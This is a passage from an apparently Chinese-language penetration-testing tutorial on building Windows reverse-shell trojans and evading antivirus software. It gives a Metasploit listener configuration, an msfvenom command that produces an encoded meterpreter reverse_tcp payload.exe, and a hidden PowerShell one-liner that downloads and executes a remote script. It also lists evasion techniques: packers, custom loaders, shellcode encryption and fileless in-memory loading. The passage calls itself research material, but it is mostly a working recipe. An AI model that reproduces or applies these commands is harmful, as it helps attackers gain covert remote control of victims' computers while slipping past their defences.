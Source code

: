 ```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
run
```

执行后，如果目标运行了 `payload.exe`，且防火墙和杀软未拦截，就会建立反向 TCP 会话。

---

## 三、免杀（AV Evasion）原理与方法

杀软主要通过以下方式检测木马：

1. **特征码检测**（Signature-based）：对比已知恶意代码的字节特征。
2. **启发式检测**（Heuristic-based）：分析代码行为模式（如自启动、修改系统文件等）。
3. **沙箱检测**（Sandbox-based）：在虚拟环境运行可疑文件，观察其行为。
4. **内存检测**（Memory Scanning）：扫描内存中的已知恶意指令模式。

**常见免杀思路**（仅用于研究）：

1. **编码与混淆**

   * 使用 `msfvenom` 的 `-e` 参数进行编码：

     ```bash
     msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o payload.exe
     ```

     * `-e`：编码器（如 `x86/shikata_ga_nai`）
     * `-i`：编码次数
   * 缺点：现代杀软对简单编码器的检测很强，不一定能过。

2. **Payload 重写 / 自定义加载器**

   * 用 C/C++、Go、Rust 编写加载器，将 Payload 作为数据嵌入，再解密加载到内存运行。
   * 好处：文件结构与常见木马不同，特征码难匹配。

3. **加壳**

   * 使用 UPX、Themida、Enigma Protector 等工具加壳。
   * 缺点：杀软也会针对常见壳检测。

4. **内存加载（Fileless）**

   * 不落地文件，直接在内存中执行（PowerShell、Reflective DLL Injection）。
   * 常见方法：

     ```powershell
     powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://IP/shell.ps1')"
     ```

5. **二次开发**

   * 对 msfvenom 生成的原始 shellcode 进行加密（AES/XOR 等）。
   * 在运行时解密执行，避免静态分析检测。

---